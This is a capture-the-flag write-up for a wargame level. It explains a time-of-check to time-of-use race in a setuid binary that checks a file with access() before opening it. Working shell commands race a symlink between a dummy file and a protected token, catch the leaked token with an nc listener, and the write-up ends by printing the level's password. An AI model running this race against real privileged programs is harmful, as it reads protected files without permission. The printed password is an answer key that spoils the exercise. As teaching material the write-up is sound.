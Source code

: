 # LEVEL 10

## 💡 Explanation

In this level we have to:
1. Check the permissions of ./level10 and token
2. Execute `./level10`to check what it does => It ask for a file and a file and a host; when providing the file token it complains because we don't have rights, it works when providing another file.
3. To be able to send the file to a host, we'll have to have a host listening => we can just listen on the port 6969 on the same machine and wait for it to receive the file.
4.  Now we have to find out how to send the file token... We check how the binary works by using strace and testing with different files => We can see that it first check the rights of the files using the function `access()` and then it `open()` the file which can lead to a security issue.
5. We have to exploit this security hole by creating a symbolic link from one file to another, so when access checks the permissions it won't have any problem (since it will be pointing to another file) and then it will open the corret one.
6. Once you get the flag, `su flag10` and `getflag`!

HARDEST LEVEL SO FAR!! 🔥🔥

## 👾 Commands

To find the solution:
```
./level10
./level10 token lol
ln -s /home/user/level10/token /tmp/lol; ./level10 /tmp/lol lol
rm /tmp/lol; echo "lol" > /tmp/lol; ./level10 /tmp/lol lol
nc 6969 -l => Run it every time we launch level10 (on a different terminal)
rm /tmp/lol; echo "lol" > /tmp/lol; strace ./level10 /tmp/lol 127.0.0.1
```

To exploit the security hole:
- Running in the background     : `echo "lal" > /tmp/lal; (while true; do ln -fs /tmp/lal /tmp/lol && ln -fs /home/user/level10/token /tmp/lol; done)&`
- Running in a terminal         : `while true ; do nc -l 6969; done`
- Running in another terminal   : `for i in `seq 50`; do ./level10 /tmp/lol 127.0.0.1; done`
- Run it several times if needed! Do not forget to kill the process once you get the flag `kill -9 <pid>`!

## 🔍 Resources

- [How to open a TCP listener?](https://unix.stackexchange.com/questions/214471/how-to-create-a-tcp-listener)
- [Linux access command](https://man7.org/linux/man-pages/man2/access.2.html)
- [Linux open command](https://linux.die.net/man/3/open)
- [Time-of-check to time-of-use](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use)
- [How to exploit the access security hole? I](https://stackoverflow.com/questions/14333112/access2-system-call-security-issue)
- [How to exploit the access security hole? II](https://stackoverflow.com/questions/11525164/what-is-wrong-with-access)
- [How to exploit the access security hole? III](https://stackoverflow.com/questions/7925177/access-security-hole)
- [Linux ln command](https://man7.org/linux/man-pages/man1/ln.1.html)
- [How to kill a process?](https://itsfoss.com/how-to-find-the-process-id-of-a-program-and-kill-it-quick-tip/)

## 🔥 Password
`woupa2yuojeeaaed06riuj63c`
